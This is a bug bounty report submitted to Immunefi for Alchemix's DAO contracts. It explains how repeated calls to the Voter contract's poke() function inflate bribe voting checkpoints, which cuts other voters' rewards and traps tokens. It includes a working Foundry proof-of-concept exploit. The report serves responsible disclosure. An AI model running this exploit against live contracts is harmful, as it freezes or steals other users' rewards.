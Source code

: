 
# Malicious actor can acquire bribe rewards by blocking other users

Submitted on Mon May 13 2024 14:01:40 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31163

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Permanent freezing of unclaimed yield
- Theft of unclaimed yield

## Description
## Vulnerability Details
The `Voter` contract uses the `onlyNewEpoch` modifier for the `reset()` and `vote()` external functions, which prevents users from voting multiple times or revoting in the same epoch.

However, the `poke()` function is missing the `onlyNewEpoch` modifier, allowing the user to call it multiple times during an epoch. When `poke()` is invoked, it internally calls `_vote()` which resets previous votes first (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L413) and then proceeds to apply the same amount of votes.

The `_reset()` function perform the withdrawal of votes from a `Bribe` contract (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L396), while the `_vote()` function deposit votes back (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L441).

The `Bribe` contract utilizes the `deposit()` function to checkpoint the voting amount for the current Epoch by invoking `_writeVotingCheckpoint()` (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L313). However, in the `withdraw()` function, it does not checkpoint the voting amount for the current Epoch. This is acceptable since users are required to vote or reset once in an Epoch. However, this assumption is invalid because of the `poke()` function. Users can call it any number of times in an epoch.

A malicious user can call `poke()` multiple times, inflating the value of votes made for an Epoch. Consequently, when calculating the amount of bribes a benign user should receive, the amount will be significantly lower.

```
_prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

// Prevent divide by zero
if (_prevSupply == 0) {
    _prevSupply = 1;
}
prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
```

Since the value of `_prevSupply` will be quite big due to multiple calls to `poke()`, the reward (`prevRewards.balanceOf`) will be small. Consequently, reward tokens become trapped in the Bribe contract, causing users to miss out on their rewards.

This way an attacker can discourage users with significant voting power from participating in voting for a specific gauge and then later acquire trapped bribes in the following epochs.


## Impact Details
- Theft of unclaimed yield.
- Permanent freezing of unclaimed yield.

        
## Proof of concept
## Proof of Concept

POC scenario:
1. The bad guy has **99** times less voting power than the good guy.
2. The good guy normally should get **99K** of BAL bribes.
3. However, the Bad guys call `poke()` 2000 times.
4. As a result of the attack, the good guy receives 15 times less reward.

Instructions:
1. Put Poc's code from below into the file `src/test/Voting.t.sol` - https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol.
1. Run the Poc as follows: `forge test --mp src/test/Voting.t.sol --fork-url URL --fork-block-number BLOCK`

```
function test_poc_ok() public {
    address bad = address(1);
    address good = address(2);

    // The good guy has 99x more voting power
    // The good guy should receive 99x more bribes ...
    uint256 tokenId1 = createVeAlcx(bad, 1 ether, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(good, 99 ether, MAXTIME, false);

    uint256 initialTimestamp = block.timestamp;

    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL and AURA bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
    createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](2);
    tokens[0][0] = bal;
    tokens[0][1] = aura;

    // Good and bad guys votes for sushiPoolAddress
    hevm.prank(good);
    voter.vote(tokenId2, pools, weights, 0);

    hevm.prank(bad);
    voter.vote(tokenId1, pools, weights, 0);

    // Reach the end of the epoch
    hevm.warp(block.timestamp + nextEpoch);

    // Claim bribes for good and bad guys
    hevm.prank(good);
    voter.claimBribes(bribes, tokens, tokenId2);

    hevm.prank(bad);
    voter.claimBribes(bribes, tokens, tokenId1);

    // Fair amount of Bribes for the good guy
    uint256 fairAmount = IERC20(bal).balanceOf(good);

    require(
        fairAmount > TOKEN_100K * 9 / 10
    );
}

function test_poc_not_ok() public {
    address bad = address(1);
    address good = address(2);

    // The good guy has 99x more voting power
    // The good guy should receive 99x more bribes ...
    uint256 tokenId1 = createVeAlcx(bad, 1 ether, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(good, 99 ether, MAXTIME, false);

    uint256 initialTimestamp = block.timestamp;

    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL and AURA bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
    createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](2);
    tokens[0][0] = bal;
    tokens[0][1] = aura;

    // Good and bad guys votes for sushiPoolAddress
    hevm.prank(good);
    voter.vote(tokenId2, pools, weights, 0);

    hevm.prank(bad);
    voter.vote(tokenId1, pools, weights, 0);

    // Bad guy invokes poke() 2000 times in the same epoch
    // this way manipulating votingCheckpoints[lastIndex].votes of Bribes
    // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L255-L261
    hevm.startPrank(bad);
    for (uint i; i < 2000; i++) {
        voter.poke(tokenId1);
    }
    hevm.stopPrank();

    // Reach the end of the epoch
    hevm.warp(block.timestamp + nextEpoch);

    // Claim bribes for good and bad guys
    hevm.prank(good);
    voter.claimBribes(bribes, tokens, tokenId2);

    hevm.prank(bad);
    voter.claimBribes(bribes, tokens, tokenId1);

    uint256 unfairAmount = IERC20(bal).balanceOf(good);

    // The good guy gets 15x less bribes (((
    require(
        unfairAmount * 15 < TOKEN_100K * 9 / 10
    );
}
```